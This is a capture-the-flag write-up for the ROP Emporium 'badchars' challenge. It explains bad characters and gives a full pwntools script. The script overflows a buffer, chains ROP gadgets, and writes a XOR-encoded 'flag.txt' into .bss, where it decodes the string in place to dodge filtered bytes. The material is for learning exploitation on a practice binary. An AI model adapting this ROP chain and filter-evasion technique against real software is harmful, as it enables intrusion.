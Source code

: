 # ROP Emporium | badchars

## What are Bad Characters?

If, let's say, in a binary `'a'` is a bad character (hex `0x61`), then wherever it appears — in registers or addresses — it will be truncated, ignored, or mutated. Hence, no part of our exploit or the addresses we use should contain that bad character.

For example:

- You **can't store** `'flag.txt'` in a register because `'a'` will not be accepted.
- You **can't use** an address like `0x03486103`, because it contains `0x61`.
- However, you **can use** an address like `0x06130210`, because it's not `0x61`— it's `0x06` and `0x13`.

---

## Output of `./badchars`

```
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> heyyo
Thank you!
```

To save us from doing too much reverse engineering to find the bad characters, the challenge gives them to us:

```
'x' 'a' 'g' '.'
Hex: 78 61 67 2e
```

---

## Objective

Just like the previous challenge `write4`, we are provided a `print_file()` function, and we need to place `'flag.txt'` into the `rdi` register and then call `print_file()` from the PLT.

We can write in the `.bss` or `.data` section. We'll be choosing `.bss` (reason explained at the end).

### Useful Gadgets (Found using ROPgadget)

```python
g1 = p64(0x004006a3) # pop rdi; ret;
g2 = p64(0x00400634) # mov qword ptr [r13], r12; ret;
g3 = p64(0x0040069c) # pop r12; pop r13; pop r14; pop r15; ret;
```

We only need `r12` and `r13` to write to memory, so we can zero out `r14` and `r15` using `p64(0x00)`.

Let’s also grab the `.bss` and `print_file()` addresses:

```python
bss_addr = 0x00601038
print_file = p64(0x00400510)
```

---

## Sending the String

Since we can't directly send `'flag.txt'` because `'a'`, `'g'`, `'x'`, and `'.'` are badchars, we need to encode them using XOR.

The cool property of XOR:

```
if str1 ^ key = str2, then str2 ^ key = str1
```

We’ll use this trick to encode `'flag.txt'` and decode it in place during runtime.

### Encoding

Let’s choose a key: `0x0202020202020202`. Using an XOR calculator, this encodes `'flag.txt'` to:

```
dnce,vzv
```

This new string contains **no badchars**. We pad and pack it:

```python
str = b"dnce,vzv".ljust(8, b'\x00')
str_packed = p64(u64(str))
xor_key = p64(0x0202020202020202)
```

Now use the pop and mov gadgets to write it into `.bss`.

---

## Decoding

From the disassembly, a useful gadget is:

```python
g4 = p64(0x00400628) # xor byte [r15], r14b
g5 = p64(0x004006a0) # pop r14 ; pop r15 ; ret
```

Here, `r14b` refers to the lowest byte of the `r14` register. In `.bss`, one address corresponds to one byte, so we can decode the string byte-by-byte.

### Memory Layout Example

A string like `0x0123456789abcdef` is stored as:

```
0x40231 : 0x01
0x40232 : 0x23
...
0x40238 : 0xef
```

So to decode, we need to:

- Set `r14b` to the XOR key byte (0x02 in our case)
- Set `r15` to the byte’s address
- Run the `xor` gadget

### Loop Explanation

We XOR each byte of the encoded string in memory with the appropriate byte of the key. Since the key was packed in little-endian format, the bytes are stored in reverse order. So we iterate from the last byte to the first:

```python
for i in range(8):
    payload += g5
    payload += p64(xor_key[7 - i])  # Because little-endian stores bytes in reverse
    payload += p64(bss_addr + i)    # Address of each byte to decode
    payload += g4                   # xor byte [r15], r14b
```

This decodes each byte in memory back into `'flag.txt'`.

---

## Final Payload

```python
from pwn import *

p = process('./badchars')

junk = b'A'*40
str = b"dnce,vzv".ljust(8, b'\x00')
str_packed = p64(u64(str))
xor_key = p64(0x0202020202020202)

bss_addr = 0x00601038
print_file = p64(0x00400510)

# gadgets
g1 = p64(0x004006a3) # pop rdi; ret;
g2 = p64(0x00400634) # mov qword ptr [r13], r12; ret;
g3 = p64(0x0040069c) # pop r12; pop r13; pop r14; pop r15; ret;
g4 = p64(0x00400628) # xor byte [r15], r14b
g5 = p64(0x004006a0) # pop r14 ; pop r15 ; ret

payload = junk
payload += g3 + str_packed + p64(bss_addr) + p64(0x00) + p64(0x00) + g2

for i in range(8):
    payload += g5
    payload += p64(xor_key[7-i])
    payload += p64(bss_addr + i)
    payload += g4

payload += g1 + p64(bss_addr) + print_file

p.sendline(payload)
p.interactive()
```

This returns the flag.

---

## Important Note: Why Use `.bss` Instead of `.data`?

If we use the `.data` section (`0x601028`), we run into a subtle bug during decoding.

```
[+] XOR-ing byte at 0x601028 : d with 0x2
[+] XOR-ing byte at 0x601029 : n with 0x2
[+] XOR-ing byte at 0x60102a : c with 0x2
[+] XOR-ing byte at 0x60102b : e with 0x2
[+] XOR-ing byte at 0x60102c : , with 0x2
[+] XOR-ing byte at 0x60102d : v with 0x2
[+] XOR-ing byte at 0x60102e : z with 0x2
[+] XOR-ing byte at 0x60102f : v with 0x2

```

You know what this returns? `flag.tzt`.
Why? 

Take a look at the address where 'z' is stored: `0x60102e`. 

It contains `2e`!!!! 

Which is a **badchar** and is hence **ignored**. The addresses following `.bss` don't have any badchars, therefore it is safe to use.

This took me around an hour to figure out after debugging a lot. So, be very wary of badchars, especially in addresses.


